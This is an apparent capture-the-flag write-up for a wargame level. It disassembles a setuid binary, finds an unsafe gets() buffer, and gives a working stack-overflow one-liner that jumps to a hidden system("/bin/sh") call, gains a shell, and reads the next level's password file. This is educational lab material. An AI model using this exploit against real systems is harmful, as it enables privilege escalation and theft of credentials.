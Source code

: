 # Level 1

## Hint

"Man gets" :)

## Answer

First, let's analyze what we have:

```bash
level1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
level1@RainFall:~$ ./level1
42
```

We have a simple program that takes input and appears to do nothing significant.

Next, let's use objdump to inspect the program's assembly code:

```bash
level1@RainFall:~$ objdump -d level1
[...]
08048340 <gets@plt>:
 8048340:       ff 25 98 97 04 08       jmp    *0x8049798
 8048346:       68 00 00 00 00          push   $0x0
 804834b:       e9 e0 ff ff ff          jmp    8048330 <_init+0x38>      
[...]
08048444 <run>:
 8048444:       55                      push   %ebp
 8048445:       89 e5                   mov    %esp,%ebp
 8048447:       83 ec 18                sub    $0x18,%esp
 804844a:       a1 c0 97 04 08          mov    0x80497c0,%eax
 804844f:       89 c2                   mov    %eax,%edx
 8048451:       b8 70 85 04 08          mov    $0x8048570,%eax
 8048456:       89 54 24 0c             mov    %edx,0xc(%esp)
 804845a:       c7 44 24 08 13 00 00    movl   $0x13,0x8(%esp)
 8048461:       00 
 8048462:       c7 44 24 04 01 00 00    movl   $0x1,0x4(%esp)
 8048469:       00 
 804846a:       89 04 24                mov    %eax,(%esp)
 804846d:       e8 de fe ff ff          call   8048350 <fwrite@plt>
 8048472:       c7 04 24 84 85 04 08    movl   $0x8048584,(%esp)
 8048479:       e8 e2 fe ff ff          call   8048360 <system@plt>
 804847e:       c9                      leave  
 804847f:       c3                      ret    

08048480 <main>:
 8048480:       55                      push   %ebp
 8048481:       89 e5                   mov    %esp,%ebp
 8048483:       83 e4 f0                and    $0xfffffff0,%esp
 8048486:       83 ec 50                sub    $0x50,%esp
 8048489:       8d 44 24 10             lea    0x10(%esp),%eax
 804848d:       89 04 24                mov    %eax,(%esp)
 8048490:       e8 ab fe ff ff          call   8048340 <gets@plt>
 8048495:       c9                      leave  
 8048496:       c3                      ret    
 8048497:       90                      nop
 8048498:       90                      nop
 8048499:       90                      nop
 804849a:       90                      nop
 804849b:       90                      nop
 804849c:       90                      nop
 804849d:       90                      nop
 804849e:       90                      nop
 804849f:       90                      nop
[...]
```
```bash
(gdb) x/s 0x8048584
0x8048584:       "/bin/sh"
```

In the disassembled code, we find two main functions: `run` and `main`. The `run` function calls `fwrite` and `system`, with the latter using "/bin/sh" as an argument.

Now, let's focus on the `main` function. It reads input using the `gets` function and then returns. The `gets` function is known to be unsafe, as it can lead to buffer overflow vulnerabilities.

```bash
Never use gets(). Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use. It has been used to break computer security. Use fgets() instead.
```

In this case, the program's stack has a size of 80 bytes, starting at 0x10 (16). Therefore, the buffer is 64 bytes long. Since the `gets` function is followed by the `run` function, we can exploit a stack buffer overflow.

To do this, we need to overwrite the return address (64 + 12) with the address of the `run` function, effectively redirecting program execution to it. This technique is known as a "Stack Buffer Overflow."

Let's execute the attack:

```bash
level1@RainFall:~$ (python -c 'print("0"*76 + "\x08\x04\x84\x44"[::-1])' && cat) | ./level1
```

The program now executes the `run` function, which calls `/bin/sh`, and we gain shell access. We can then read the password for the next level:

```bash
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
exit
```

However, the program eventually crashes with a segmentation fault because the return address was tampered with.

